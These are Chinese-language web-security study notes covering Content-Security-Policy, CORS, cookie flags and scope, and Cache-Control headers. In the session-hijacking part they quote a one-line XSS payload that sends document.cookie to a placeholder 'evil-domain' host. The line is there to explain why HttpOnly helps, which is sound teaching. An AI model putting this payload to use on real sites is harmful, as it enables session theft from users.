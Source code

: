 * Content-Security-Policy: default-src 'self': 一个网站管理者想要所有内容均来自站点的同一个源 (不包括其子域名)
* Content-Security-Policy: default-src 'self' *.trusted.com: 允许内容来自信任的域名及其子域名 (域名不必须与CSP设置所在的域名相同)
* Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.example.com: 允许网页应用的用户在他们自己的内容中包含来自任何源的图片, 但是限制音频或视频需从信任的资源提供者(获得)，所有脚本必须从特定主机服务器获取可信的代码.

> 对策略进行测试, 为降低部署成本，CSP可以部署为报告(report-only)模式。在此模式下，CSP策略不是强制性的，但是任何违规行为将会报告给一个指定的URI地址。Content-Security-Policy-Report-Only: policy

> 启用违例报告, 默认情况下，违规报告并不会发送。为启用发送违规报告，你需要指定 report-uri 策略指令，并提供至少一个URI地址去递交报告：Content-Security-Policy: default-src 'self'; report-uri http://reportcollector.example.com/collector.cgi



###  CORS
> 当一个资源从与该资源本身所在的服务器不同的域或端口请求一个资源时，资源会发起一个跨域 HTTP 请求
> cross-origin sharing standard 跨域资源共享标准， 跨域限制以及预请求验证
> 简单请求,不需要预请求 : 方法 GET HEAD POST; Content-Type:  text/plain、 multipart/form-data、 application/x-www-form-urlencoded; 首部字段集合为Accept 、Accept-Language、Content-Language、Content-Type （需要注意额外的限制）、DPR、Downlink、Save-Data、Viewport-Width、Width。请求中的XMLHttpRequestUpload 对象未注册任意多个事件监听器； 请求中未使用ReadableStream对象。
> 预检请求:必须首先使用OPTIONS方法发起一个预检请求到服务器，以获知服务器是否允许该实际请求。"预检请求“的使用，可以避免跨域请求对服务器的用户数据产生未预期的影响。
> 附带身份凭证的请求:Fetch 与 CORS 可以基于  HTTP cookies 和 HTTP 认证信息发送身份凭证。对于跨域 XMLHttpRequest 或 Fetch 请求，如果要发送凭证信息，需要设置XMLHttpRequest 的 withCredentials为true，从而向服务器发送 Cookies。同时，服务器端的响应中携带 Access-Control-Allow-Credentials: true 。此时，服务器不得设置 Access-Control-Allow-Origin 的值为*。
> HTTP 请求首部字段,这些首部字段无须手动设置。 当开发者使用 XMLHttpRequest 对象发起跨域请求时，它们已经被设置就绪: Origin, 表明预检请求或实际请求的源站 URI, 它不包含任何路径信息，只是服务器名称; Access-Control-Request-Method; Access-Control-Request-Headers;
> HTTP 响应首部字段: Access-Control-Allow-Origin; Access-Control-Expose-Headers; Access-Control-Max-Age; Access-Control-Allow-Credentials; Access-Control-Allow-Methods; Access-Control-Allow-Headers。



### Cookie,  Web Cookie或浏览器Cookie
* 服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息成为了可能。
* 用途：会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）;个性化设置（如用户自定义设置、主题等）;浏览器行为跟踪.
* 分类：会话期Cookie和持久性Cookie。会话期Cookie关闭浏览器会自动删除失效 ；持久性Cookie可以指定一个特定的过期时间（Expires）或有效期（Max-Age。提示：当Cookie的过期时间被设定时，设定的日期和时间只与客户端相关，而不是服务端。
response.setHeader('Set-Cookie', ['name=sea; max-age=2', 'year=2018; Expires=Wed, 21 Oct 2015 07:28:00 GMT;HttpOnly; domain=test.com']);
* 标记:  Secure 的Cookie只应通过被HTTPS协议加密过的请求发送给服务端 ;HttpOnly, 为避免跨域脚本 (XSS) 攻击, document.cookie无法访问带有 HttpOnly 标记的Cookie，它们只应该发送给服务端.
* Cookie的作用域: Domain 和 Path 标识定义了Cookie的作用域：即Cookie应该发送给哪些URL。Domain 标识指定了哪些主机可以接受Cookie。如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了Domain，则一般包含子域名；Path 标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中），以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。
* SameSite Cookies： 允许服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）。但目前SameSite Cookie还处于实验阶段，并不是所有浏览器都支持。
* 会话劫持和XSS： 在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie。 HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。
* 跨站请求伪造（CSRF）: 对用户输入进行过滤来阻止XSS；任何敏感操作都需要确认；用于敏感信息的Cookie只能拥有较短的生命周期。 


### Cache-Control 缓存， 缓解服务器端压力，提升性能
> Cache-Control: private 私有缓存, public 公共缓存, no-cache 强制确认缓存, no-store 禁止进行缓存, must-revalidate 缓存验证确认, max-age=31536000 缓存（保持新鲜）的最大时间
